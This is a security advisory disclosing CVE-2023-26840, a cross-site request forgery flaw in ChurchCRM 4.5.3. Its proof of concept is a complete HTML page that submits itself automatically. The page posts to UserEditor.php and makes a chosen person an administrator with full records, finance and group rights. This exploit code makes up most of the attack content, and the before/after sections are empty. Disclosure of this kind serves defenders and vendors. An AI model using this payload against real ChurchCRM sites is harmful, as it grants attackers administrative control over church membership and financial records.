



# CVE-2023-26840 - Cross-Site Request Forgery (CSRF) via UserEditor.php

|                 |                                                                                      |
| --------------- | --------------- |
| Researchers     | 10splayaSec                                                               |
| Severity        | 8.1 (CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:H/I:H/A:N)                                   |
| Published       | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26840         |
| Software Link   | https://github.com/ChurchCRM/CRM             |

## Description

A cross-site request forgery (CSRF) vulnerability in ChurchCRM 4.5.3 allows attackers to set a person to a Administrator user.

## Proof of Concept

1. Using the HTML below, a malicious attacker is allowed to change a person to an administrator using any ID that is specified.

```html
<html>
	<body>
		<form method="POST" action="http://<URL>/churchcrm/UserEditor.php">
			<input type="hidden" name="Action" value="add"/>
			<input type="hidden" name="NewUser" value="true"/>
			<input type="hidden" name="PersonID" value="<ID>"/>
			<input type="hidden" name="UserName" value="<USERNAME>"/>
			<input type="hidden" name="Admin" value="1"/>
			<input type="hidden" name="AddRecords" value="1"/>
			<input type="hidden" name="EditRecords" value="1"/>
			<input type="hidden" name="DeleteRecords" value="1"/>
			<input type="hidden" name="MenuOptions" value="1"/>
			<input type="hidden" name="ManageGroups" value="1"/>
			<input type="hidden" name="Finance" value="1"/>
			<input type="hidden" name="Notes" value="1"/>
			<input type="hidden" name="EditSelf" value="1"/>
			<input type="hidden" name="Canvasser" value="1"/>
			<input type="hidden" name="Style" value="skin-blue"/>
			<input type="hidden" name="save" value="Save+Settings"/>
			<input type="submit" value="Submit">
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
<html>
```

### Before CSRF:



### After CSRF:


